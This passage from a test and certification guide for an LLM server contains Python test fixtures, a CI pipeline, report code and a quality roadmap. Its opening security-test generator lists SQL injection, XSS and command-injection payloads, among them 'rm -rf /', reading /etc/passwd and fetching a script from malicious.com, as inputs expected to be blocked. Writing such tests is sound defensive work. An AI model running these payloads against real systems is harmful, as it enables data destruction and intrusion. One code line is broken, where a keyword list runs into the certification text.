            "'; DROP TABLE users; --",
            "' OR '1'='1",
            "' UNION SELECT * FROM users --",
            "'; INSERT INTO users VALUES ('hacker', 'password'); --"
        ]
        
        # XSS attempts
        xss_payloads = [
            "<script>alert('XSS')</script>",
            "javascript:alert('XSS')",
            "",
            "<svg onload=alert('XSS')>"
        ]
        
        # Command injection attempts
        command_injection_payloads = [
            "; ls -la",
            "| cat /etc/passwd",
            "&& rm -rf /",
            "; wget http://malicious.com/script.sh"
        ]
        
        all_payloads = sql_injection_payloads + xss_payloads + command_injection_payloads
        
        for i, payload in enumerate(all_payloads):
            test_case = {
                "id": f"security_test_{i:04d}",
                "payload": payload,
                "attack_type": self._classify_attack_type(payload),
                "expected_result": "blocked",
                "severity": "high"
            }
            
            data.append(test_case)
        
        return data
    
    def _generate_test_prompt(self, prompt_type: str) -> str:
        """Generate test prompt based on type."""
        prompts = {
            "short": [
                "Hello, how are you?",
                "What is AI?",
                "Explain Python.",
                "Define machine learning."
            ],
            "medium": [
                "Explain the concept of artificial intelligence and its applications.",
                "Write a Python function to calculate the Fibonacci sequence.",
                "Describe the differences between supervised and unsupervised learning.",
                "What are the benefits and challenges of cloud computing?"
            ],
            "long": [
                "Provide a comprehensive explanation of quantum computing, including its principles, current applications, and potential future impact on various industries.",
                "Write a detailed analysis of the current state of artificial intelligence, covering machine learning, deep learning, natural language processing, and computer vision.",
                "Explain the concept of blockchain technology, its underlying mechanisms, use cases beyond cryptocurrency, and potential implications for various sectors."
            ],
            "complex": [
                "Analyze the ethical implications of artificial intelligence in healthcare, considering privacy concerns, algorithmic bias, decision-making transparency, and the balance between automation and human oversight.",
                "Discuss the technical challenges and potential solutions for achieving artificial general intelligence, including current limitations, research directions, and timeline predictions.",
                "Evaluate the impact of quantum computing on current cryptographic systems and propose strategies for post-quantum cryptography implementation."
            ]
        }
        
        return random.choice(prompts.get(prompt_type, prompts["medium"]))
    
    def _get_token_count_for_type(self, prompt_type: str) -> int:
        """Get appropriate token count for prompt type."""
        token_ranges = {
            "short": (50, 150),
            "medium": (150, 300),
            "long": (300, 500),
            "complex": (500, 1000)
        }
        
        min_tokens, max_tokens = token_ranges.get(prompt_type, (150, 300))
        return random.randint(min_tokens, max_tokens)
    
    def _classify_attack_type(self, payload: str) -> str:
        """Classify security attack type based on payload."""
        if any(keyword in payload.lower() for keyword in ["drop", "select", "union", "insert"]):
            return "sql_injection"
        elif any(keyword in payload for keyword in ["<script>", "javascript:", "95%
  - All component interfaces properly tested
  - Performance benchmarks meet architecture targets
  - Error handling validated for all failure scenarios
  - Documentation complete and accurate

#### **Level 2: Integration Certification**
- **Requirements:**
  - All external integrations tested and validated
  - Cross-service communication verified
  - Data consistency across services confirmed
  - Failure recovery mechanisms tested
  - End-to-end workflows validated

#### **Level 3: Service Certification**
- **Requirements:**
  - Load testing validates performance under target load
  - Security assessment passes all requirements
  - Monitoring and observability fully implemented
  - Deployment automation tested and validated
  - Operational procedures documented and tested

#### **Level 4: System Certification**
- **Requirements:**
  - Complete system integration validated
  - Business requirements fully satisfied
  - Production readiness confirmed
  - Disaster recovery procedures tested
  - Compliance requirements met

### **6.2. Certification Process**

#### **Automated Certification Pipeline**
```yaml
# .github/workflows/certification.yml
name: Code Certification Pipeline

on:
  pull_request:
    branches: [main]
  push:
    branches: [main]

jobs:
  level1-component-certification:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - name: Setup Python
        uses: actions/setup-python@v4
        with:
          python-version: '3.12'
      
      - name: Install dependencies
        run: |
          pip install -r requirements.txt
          pip install -r requirements-test.txt
      
      - name: Run unit tests
        run: |
          pytest testing/component/ --cov=. --cov-report=xml --cov-fail-under=95
      
      - name: Performance benchmarks
        run: |
          pytest testing/component/ -m performance --benchmark-only
      
      - name: Component certification report
        run: |
          python scripts/generate_certification_report.py --level=1

  level2-integration-certification:
    needs: level1-component-certification
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - name: Setup test environment
        run: |
          docker-compose -f docker-compose.test.yml up -d
          sleep 60  # Wait for services to start
      
      - name: Run integration tests
        run: |
          pytest testing/integration_tests/ --verbose
      
      - name: Cross-service validation
        run: |
          pytest testing/integration_tests/cross_service_tests.py
      
      - name: Integration certification report
        run: |
          python scripts/generate_certification_report.py --level=2

  level3-service-certification:
    needs: level2-integration-certification
    runs-on: ubuntu-latest
    steps:
      - name: Load testing
        run: |
          pytest testing/service/load/ --verbose
      
      - name: Security assessment
        run: |
          pytest testing/service/security/ --verbose
      
      - name: Service certification report
        run: |
          python scripts/generate_certification_report.py --level=3

  level4-system-certification:
    needs: level3-service-certification
    if: github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - name: End-to-end system validation
        run: |
          pytest testing/integration_tests/end_to_end_tests.py --verbose
      
      - name: Business requirements validation
        run: |
          python scripts/validate_business_requirements.py
      
      - name: System certification report
        run: |
          python scripts/generate_certification_report.py --level=4
      
      - name: Generate final certification
        run: |
          python scripts/generate_final_certification.py
```

### **6.3. Certification Reporting**

#### **Certification Report Generator**
```python
# scripts/generate_certification_report.py
import json
import yaml
from datetime import datetime
from typing import Dict, List, Any
from dataclasses import dataclass

@dataclass
class CertificationResult:
    """Results from certification testing."""
    level: int
    component: str
    status: str
    score: float
    details: Dict[str, Any]
    recommendations: List[str]

class CertificationReportGenerator:
    """Generates comprehensive certification reports."""
    
    def __init__(self):
        self.results = []
    
    def generate_report(self, level: int, results: List[CertificationResult]) -> Dict[str, Any]:
        """Generate certification report for specific level."""
        report = {
            "certification_level": level,
            "timestamp": datetime.now().isoformat(),
            "overall_status": self._calculate_overall_status(results),
            "overall_score": self._calculate_overall_score(results),
            "components": [],
            "summary": {
                "total_components": len(results),
                "passed": len([r for r in results if r.status == "PASSED"]),
                "failed": len([r for r in results if r.status == "FAILED"]),
                "warnings": len([r for r in results if r.status == "WARNING"])
            },
            "recommendations": self._aggregate_recommendations(results)
        }
        
        for result in results:
            component_report = {
                "name": result.component,
                "status": result.status,
                "score": result.score,
                "details": result.details,
                "recommendations": result.recommendations
            }
            report["components"].append(component_report)
        
        return report
    
    def _calculate_overall_status(self, results: List[CertificationResult]) -> str:
        """Calculate overall certification status."""
        if all(r.status == "PASSED" for r in results):
            return "CERTIFIED"
        elif any(r.status == "FAILED" for r in results):
            return "FAILED"
        else:
            return "CONDITIONAL"
    
    def _calculate_overall_score(self, results: List[CertificationResult]) -> float:
        """Calculate overall certification score."""
        if not results:
            return 0.0
        
        return sum(r.score for r in results) / len(results)
    
    def _aggregate_recommendations(self, results: List[CertificationResult]) -> List[str]:
        """Aggregate recommendations from all components."""
        all_recommendations = []
        for result in results:
            all_recommendations.extend(result.recommendations)
        
        # Remove duplicates while preserving order
        unique_recommendations = []
        seen = set()
        for rec in all_recommendations:
            if rec not in seen:
                unique_recommendations.append(rec)
                seen.add(rec)
        
        return unique_recommendations
    
    def save_report(self, report: Dict[str, Any], filename: str):
        """Save certification report to file."""
        with open(filename, 'w') as f:
            json.dump(report, f, indent=2)
    
    def generate_html_report(self, report: Dict[str, Any]) -> str:
        """Generate HTML certification report."""
        html_template = """
        <!DOCTYPE html>
        <html>
        <head>
            <title>HXP-Enterprise LLM Server Certification Report</title>
            <style>
                body { font-family: Arial, sans-serif; margin: 40px; }
                .header { background-color: #f0f0f0; padding: 20px; border-radius: 5px; }
                .status-passed { color: green; font-weight: bold; }
                .status-failed { color: red; font-weight: bold; }
                .status-warning { color: orange; font-weight: bold; }
                .component { margin: 20px 0; padding: 15px; border: 1px solid #ddd; border-radius: 5px; }
                .score { font-size: 1.2em; font-weight: bold; }
                .recommendations { background-color: #fff3cd; padding: 10px; border-radius: 3px; }
            </style>
        </head>
        <body>
            <div class="header">
                <h1>HXP-Enterprise LLM Server Certification Report</h1>
                <p><strong>Level:</strong> {level}</p>
                <p><strong>Timestamp:</strong> {timestamp}</p>
                <p><strong>Overall Status:</strong> <span class="status-{status_class}">{overall_status}</span></p>
                <p><strong>Overall Score:</strong> <span class="score">{overall_score:.2f}/100</span></p>
            </div>
            
            <h2>Summary</h2>
            <ul>
                <li>Total Components: {total_components}</li>
                <li>Passed: {passed}</li>
                <li>Failed: {failed}</li>
                <li>Warnings: {warnings}</li>
            </ul>
            
            <h2>Component Results</h2>
            {component_results}
            
            <h2>Recommendations</h2>
            <div class="recommendations">
                <ul>
                    {recommendations}
                </ul>
            </div>
        </body>
        </html>
        """
        
        # Format component results
        component_html = ""
        for component in report["components"]:
            status_class = component["status"].lower()
            component_html += f"""
            <div class="component">
                <h3>{component["name"]}</h3>
                <p><strong>Status:</strong> <span class="status-{status_class}">{component["status"]}</span></p>
                <p><strong>Score:</strong> <span class="score">{component["score"]:.2f}/100</span></p>
                <p><strong>Details:</strong> {json.dumps(component["details"], indent=2)}</p>
            </div>
            """
        
        # Format recommendations
        recommendations_html = ""
        for rec in report["recommendations"]:
            recommendations_html += f"<li>{rec}</li>"
        
        return html_template.format(
            level=report["certification_level"],
            timestamp=report["timestamp"],
            overall_status=report["overall_status"],
            status_class=report["overall_status"].lower(),
            overall_score=report["overall_score"],
            total_components=report["summary"]["total_components"],
            passed=report["summary"]["passed"],
            failed=report["summary"]["failed"],
            warnings=report["summary"]["warnings"],
            component_results=component_html,
            recommendations=recommendations_html
        )
```

---

## 7. ⚙️ **CONFIGURATION CERTIFICATION**

### **7.1. Configuration Validation Framework**

#### **Implementation Requirements:**
```python
# testing/component/infrastructure_tests/test_configuration.py
import pytest
import yaml
import json
from typing import Dict, Any, List
from pydantic import ValidationError
from hxp_enterprise_llm.schemas.configuration.service_schemas import *

class TestConfigurationCertification:
    """Comprehensive configuration certification tests."""
    
    @pytest.fixture
    def config_files(self):
        """Load all configuration files for testing."""
        config_files = {
            "mixtral": "/opt/citadel/config/services/mixtral.yaml",
            "hermes": "/opt/citadel/config/services/hermes.yaml",
            "openchat": "/opt/citadel/config/services/openchat.yaml",
            "phi3": "/opt/citadel/config/services/phi3.yaml",
            "api_gateway": "/opt/citadel/config/services/api_gateway.yaml",
            "monitoring": "/opt/citadel/config/monitoring/prometheus.yaml"
        }
        
        loaded_configs = {}
        for name, path in config_files.items():
            with open(path, 'r') as f:
                loaded_configs[name] = yaml.safe_load(f)
        
        return loaded_configs
    
    def test_service_configuration_schemas(self, config_files):
        """Test all service configurations against their schemas."""
        schema_mappings = {
            "mixtral": MixtralServiceConfig,
            "hermes": HermesServiceConfig,
            "openchat": OpenChatServiceConfig,
            "phi3": Phi3ServiceConfig,
            "api_gateway": APIGatewayConfig,
            "monitoring": MonitoringConfig
        }
        
        for service_name, config_data in config_files.items():
            schema_class = schema_mappings.get(service_name)
            if schema_class:
                try:
                    validated_config = schema_class(**config_data)
                    assert validated_config is not None
                except ValidationError as e:
                    pytest.fail(f"Configuration validation failed for {service_name}: {e}")
    
    def test_port_allocation_conflicts(self, config_files):
        """Test for port allocation conflicts between services."""
        used_ports = set()
        port_conflicts = []
        
        for service_name, config in config_files.items():
            service_ports = self._extract_ports_from_config(config)
            
            for port in service_ports:
                if port in used_ports:
                    port_conflicts.append(f"Port {port} conflict between services")
                else:
                    used_ports.add(port)
        
        assert len(port_conflicts) == 0, f"Port conflicts detected: {port_conflicts}"
    
    def test_resource_allocation_limits(self, config_files):
        """Test resource allocation limits against architecture specifications."""
        architecture_limits = {
            "total_memory_gb": 128,
            "total_cpu_cores": 16,
            "total_storage_gb": 6000
        }
        
        total_allocated = {
            "memory_gb": 0,
            "cpu_cores": 0,
            "storage_gb": 0
        }
        
        for service_name, config in config_files.items():
            service_resources = self._extract_resources_from_config(config)
            
            total_allocated["memory_gb"] += service_resources.get("memory_gb", 0)
            total_allocated["cpu_cores"] += service_resources.get("cpu_cores", 0)
            total_allocated["storage_gb"] += service_resources.get("storage_gb", 0)
        
        # Validate against architecture limits
        assert total_allocated["memory_gb"] <= architecture_limits["total_memory_gb"], \
            f"Memory allocation exceeds limit: {total_allocated['memory_gb']}GB > {architecture_limits['total_memory_gb']}GB"
        
        assert total_allocated["cpu_cores"] <= architecture_limits["total_cpu_cores"], \
            f"CPU allocation exceeds limit: {total_allocated['cpu_cores']} > {architecture_limits['total_cpu_cores']}"
        
        assert total_allocated["storage_gb"] <= architecture_limits["total_storage_gb"], \
            f"Storage allocation exceeds limit: {total_allocated['storage_gb']}GB > {architecture_limits['total_storage_gb']}GB"
    
    def test_environment_variable_consistency(self, config_files):
        """Test environment variable consistency across configurations."""
        required_env_vars = [
            "CITADEL_ENV",
            "DATABASE_HOST",
            "DATABASE_PORT",
            "VECTOR_DB_HOST",
            "METRICS_HOST",
            "LOG_LEVEL"
        ]
        
        for service_name, config in config_files.items():
            env_vars = config.get("environment", {})
            
            for required_var in required_env_vars:
                assert required_var in env_vars, \
                    f"Required environment variable {required_var} missing in {service_name} configuration"
    
    def test_security_configuration_compliance(self, config_files):
        """Test security configuration compliance for R&D environment."""
        security_requirements = {
            "cors_enabled": True,
            "rate_limiting_enabled": False,  # Disabled for R&D
            "authentication_required": False,  # Disabled for R&D
            "ssl_enabled": False,  # Disabled for R&D
            "network_restrictions": True
        }
        
        for service_name, config in config_files.items():
            security_config = config.get("security", {})
            
            for requirement, expected_value in security_requirements.items():
                actual_value = security_config.get(requirement)
                assert actual_value == expected_value, \
                    f"Security requirement {requirement} not met in {service_name}: expected {expected_value}, got {actual_value}"
    
    def test_monitoring_configuration_integration(self, config_files):
        """Test monitoring configuration integration with Metrics Server."""
        metrics_server_config = {
            "host": "192.168.10.37",
            "prometheus_port": 9090,
            "grafana_port": 3000,
            "alertmanager_port": 9093
        }
        
        for service_name, config in config_files.items():
            monitoring_config = config.get("monitoring", {})
            
            if monitoring_config:
                assert monitoring_config.get("prometheus_host") == metrics_server_config["host"], \
                    f"Prometheus host mismatch in {service_name}"
                
                assert monitoring_config.get("prometheus_port") == metrics_server_config["prometheus_port"], \
                    f"Prometheus port mismatch in {service_name}"
    
    def _extract_ports_from_config(self, config: Dict[str, Any]) -> List[int]:
        """Extract all port numbers from configuration."""
        ports = []
        
        # Check common port fields
        port_fields = ["port", "http_port", "grpc_port", "metrics_port", "health_port"]
        
        for field in port_fields:
            if field in config:
                ports.append(config[field])
        
        # Check nested configurations
        for key, value in config.items():
            if isinstance(value, dict):
                ports.extend(self._extract_ports_from_config(value))
        
        return ports
    
    def _extract_resources_from_config(self, config: Dict[str, Any]) -> Dict[str, float]:
        """Extract resource allocation from configuration."""
        resources = {
            "memory_gb": 0,
            "cpu_cores": 0,
            "storage_gb": 0
        }
        
        # Check resource fields
        if "resources" in config:
            resource_config = config["resources"]
            resources["memory_gb"] = resource_config.get("memory_limit_gb", 0)
            resources["cpu_cores"] = resource_config.get("cpu_cores", 0)
            resources["storage_gb"] = resource_config.get("storage_gb", 0)
        
        return resources
```

### **7.2. Configuration Certification Criteria**

#### **Schema Validation:**
- **✅ Schema Compliance:** All configurations must validate against their respective schemas
- **✅ Required Fields:** All required configuration fields must be present and valid
- **✅ Data Types:** All configuration values must be of the correct data type
- **✅ Value Ranges:** All configuration values must be within acceptable ranges

#### **Resource Allocation:**
- **✅ Memory Limits:** Total memory allocation must not exceed server capacity (128GB)
- **✅ CPU Allocation:** Total CPU allocation must not exceed server capacity (16 cores)
- **✅ Storage Limits:** Total storage allocation must not exceed server capacity (6TB)
- **✅ Port Conflicts:** No port conflicts between services

#### **Integration Consistency:**
- **✅ Environment Variables:** Consistent environment variables across all services
- **✅ Network Configuration:** Proper network configuration for service communication
- **✅ Monitoring Integration:** Correct integration with Metrics Server (192.168.10.37)
- **✅ Database Integration:** Proper database connection configuration (192.168.10.35)

#### **Security Compliance:**
- **✅ R&D Security:** Appropriate security settings for development environment
- **✅ Network Restrictions:** Proper network access restrictions
- **✅ Authentication:** Correct authentication configuration (disabled for R&D)
- **✅ CORS Configuration:** Proper CORS settings for development

---

## 8. 🗺️ **IMPLEMENTATION ROADMAP**

### **8.1. Phase 1: Foundation Setup (Week 1)**

#### **Day 1-2: Test Framework Infrastructure**
- Setup test directory structure
- Implement base test framework classes
- Configure pytest and testing dependencies
- Create test environment manager

#### **Day 3-4: Component Test Implementation**
- Implement AI model service tests
- Create infrastructure component tests
- Develop integration component tests
- Setup test fixtures and mocks

#### **Day 5-7: Service Test Framework**
- Implement unit test framework
- Create load test framework
- Develop security test framework
- Setup testing utilities

### **8.2. Phase 2: Test Implementation (Week 2)**

#### **Day 8-10: Component Testing**
- Complete all AI model service tests
- Finish infrastructure component tests
- Implement integration component tests
- Validate test coverage >95%

#### **Day 11-12: Integration Testing**
- Implement cross-service integration tests
- Create end-to-end test scenarios
- Develop external service integration tests
- Setup integration test environment

#### **Day 13-14: Service Testing**
- Complete load testing scenarios
- Implement security test scenarios
- Create performance benchmarking tests
- Setup continuous testing pipeline

### **8.3. Phase 3: Certification Implementation (Week 3)**

#### **Day 15-17: Certification Framework**
- Implement certification levels
- Create certification pipeline
- Develop certification reporting
- Setup automated certification

#### **Day 18-19: Configuration Certification**
- Implement configuration validation
- Create configuration test scenarios
- Develop configuration certification
- Setup configuration monitoring

#### **Day 20-21: Final Integration**
- Complete end-to-end certification
- Implement final validation
- Create comprehensive reporting
- Setup production readiness checks

### **8.4. Phase 4: Validation and Documentation (Week 4)**

#### **Day 22-24: Comprehensive Testing**
- Execute complete test suite
- Validate all certification levels
- Perform final integration testing
- Generate comprehensive reports

#### **Day 25-26: Documentation and Training**
- Complete test documentation
- Create certification guides
- Develop training materials
- Setup knowledge transfer

#### **Day 27-28: Production Readiness**
- Final certification validation
- Production readiness assessment
- Deployment preparation
- Handover to operations team

---

## 9. 🏆 **CERTIFICATION PROCESS**

### **9.1. Certification Workflow**



### **9.2. Certification Gates**

#### **Gate 1: Component Certification**
- **Entry Criteria:** Code development complete
- **Exit Criteria:** All component tests pass, >95% coverage
- **Deliverables:** Component test report, coverage report

#### **Gate 2: Integration Certification**
- **Entry Criteria:** Component certification complete
- **Exit Criteria:** All integration tests pass, external services validated
- **Deliverables:** Integration test report, service validation report

#### **Gate 3: Service Certification**
- **Entry Criteria:** Integration certification complete
- **Exit Criteria:** Performance targets met, security validated
- **Deliverables:** Performance report, security assessment report

#### **Gate 4: System Certification**
- **Entry Criteria:** Service certification complete
- **Exit Criteria:** End-to-end validation complete, production readiness confirmed
- **Deliverables:** System certification report, production readiness assessment

### **9.3. Certification Maintenance**

#### **Continuous Certification:**
- **Daily:** Automated component and integration tests
- **Weekly:** Performance and security validation
- **Monthly:** Complete system certification review
- **Quarterly:** Certification framework updates

#### **Regression Testing:**
- **Code Changes:** Automatic regression test execution
- **Configuration Changes:** Configuration certification validation
- **Infrastructure Changes:** Complete re-certification required
- **Security Updates:** Security certification re-validation

---

## 10. 📊 **QUALITY GATES AND METRICS**

### **10.1. Quality Metrics**

#### **Code Quality Metrics:**
- **Test Coverage:** >95% line coverage, >90% branch coverage
- **Code Complexity:** Cyclomatic complexity <10 per function
- **Code Duplication:** <5% code duplication
- **Technical Debt:** <1 day technical debt per sprint

#### **Performance Metrics:**
- **Latency Targets:** Meet architecture-specified latency targets
- **Throughput Targets:** Meet architecture-specified throughput targets
- **Resource Utilization:** Stay within allocated resource limits
- **Error Rates:** <1% error rate under normal load

#### **Security Metrics:**
- **Vulnerability Count:** Zero high-severity vulnerabilities
- **Security Test Coverage:** 100% security test scenario coverage
- **Compliance Score:** 100% compliance with R&D security requirements
- **Penetration Test Results:** All penetration tests pass

#### **Operational Metrics:**
- **Deployment Success Rate:** >99% successful deployments
- **Mean Time to Recovery:** <15 minutes for service recovery
- **Monitoring Coverage:** 100% service monitoring coverage
- **Alert Response Time:** <5 minutes alert response time

### **10.2. Quality Gates**

#### **Development Quality Gate:**
```yaml
development_quality_gate:
  code_coverage:
    minimum: 95
    branch_coverage: 90
  complexity:
    maximum_cyclomatic: 10
  duplication:
    maximum_percentage: 5
  security:
    vulnerability_threshold: 0
```

#### **Integration Quality Gate:**
```yaml
integration_quality_gate:
  integration_tests:
    pass_rate: 100
  performance:
    latency_compliance: 100
    throughput_compliance: 100
  external_services:
    connectivity_success: 100
```

#### **Production Quality Gate:**
```yaml
production_quality_gate:
  system_tests:
    pass_rate: 100
  performance:
    load_test_success: 100
    stress_test_success: 100
  security:
    security_scan_pass: 100
  operational:
    monitoring_coverage: 100
    deployment_success: 100
```

### **10.3. Metrics Dashboard**

#### **Real-time Quality Dashboard:**
```python
# Quality metrics dashboard configuration
quality_dashboard_config = {
    "panels": [
        {
            "title": "Test Coverage",
            "metrics": [
                "test_coverage_percentage",
                "branch_coverage_percentage",
                "function_coverage_percentage"
            ],
            "thresholds": {
                "green": 95,
                "yellow": 90,
                "red": 85
            }
        },
        {
            "title": "Performance Metrics",
            "metrics": [
                "average_latency_ms",
                "p95_latency_ms",
                "throughput_rps",
                "error_rate_percentage"
            ],
            "thresholds": {
                "latency_green": 1000,
                "latency_yellow": 1500,
                "latency_red": 2000,
                "error_rate_green": 0.1,
                "error_rate_yellow": 0.5,
                "error_rate_red": 1.0
            }
        },
        {
            "title": "Security Status",
            "metrics": [
                "vulnerability_count",
                "security_test_pass_rate",
                "compliance_score"
            ],
            "thresholds": {
                "vulnerability_green": 0,
                "vulnerability_yellow": 1,
                "vulnerability_red": 5
            }
        },
        {
            "title": "Certification Status",
            "metrics": [
                "component_certification_status",
                "integration_certification_status",
                "service_certification_status",
                "system_certification_status"
            ]
        }
    ]
}
```

---

## 📋 **CONCLUSION**

This comprehensive Test Implementation & Certification Guide provides the complete framework for ensuring quality, performance, security, and operational readiness of the HXP-Enterprise LLM Server. The implementation of this testing framework will:

### **Strategic Benefits:**
- **Quality Assurance:** Comprehensive testing ensures high-quality, reliable software
- **Performance Validation:** Systematic performance testing validates architecture targets
- **Security Compliance:** Thorough security testing ensures R&D environment compliance
- **Operational Readiness:** Complete certification process ensures production readiness

### **Implementation Success Factors:**
- **Comprehensive Coverage:** Testing framework covers all components, integrations, and services
- **Automated Execution:** Automated testing pipeline ensures consistent quality validation
- **Continuous Monitoring:** Real-time quality metrics provide ongoing visibility
- **Certification Process:** Structured certification ensures systematic quality validation

### **Next Steps:**
1. **Implement Test Framework:** Begin with Phase 1 foundation setup
2. **Execute Testing:** Complete all testing phases according to roadmap
3. **Achieve Certification:** Progress through all certification levels
4. **Maintain Quality:** Implement continuous testing and certification maintenance

**🎯 This guide ensures the HXP-Enterprise LLM Server meets the highest standards of quality, performance, security, and operational excellence through comprehensive testing and certification!**

